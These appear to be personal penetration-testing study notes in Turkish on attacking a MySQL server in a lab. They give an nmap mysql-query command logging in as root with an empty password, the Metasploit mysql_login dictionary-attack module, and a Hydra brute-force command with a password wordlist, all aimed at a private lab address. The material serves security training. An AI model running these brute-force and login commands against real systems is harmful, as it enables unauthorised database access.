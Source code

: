## NMAP SQL SORGUSU QUERY
![[Pasted image 20240126132906.png]]
##### nmap 10.0.2.5 -p3306 -sV --script=mysql-query --script-args="query='select count(*) from books.authors;' username='root', password=''"

![[Pasted image 20240126133142.png]]


---
## <span style="background:#ff4d4f">Önemli Not</span>

### Çok fazla sayıda arka arkaya komut var ve bunları hatırlamak zor. Bunun için kendi Cheat Sheet'ini oluşturman çok önemli.

---

# MySQL Dictionary Attack

#sql-dictionary-attack

#### Standart nmap taraması yaptık. Port 3306'da Mysql çalıştığını gördük

### Msfconsole 'un zaten Auxiliary mode var brute force yapacak şekilde

#### msf6> use auxiliary/scanner/mysql/mysql_login 

![[Pasted image 20240128193336.png]]

# HYDRA SQL BRUTE FORCE

#hydra-sql-brute
![[Pasted image 20240128193456.png]]
![[Pasted image 20240128193531.png]]


![[Pasted image 20240128193653.png]]
### hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.2.5 mysql

![[Pasted image 20240128193846.png]]
>[!warning] Eğer mysql başka portta çalışıyorsa port numaralası yazılır. 3306 standart portundaysa gerek yok hydra zaten kendi belirler yazar
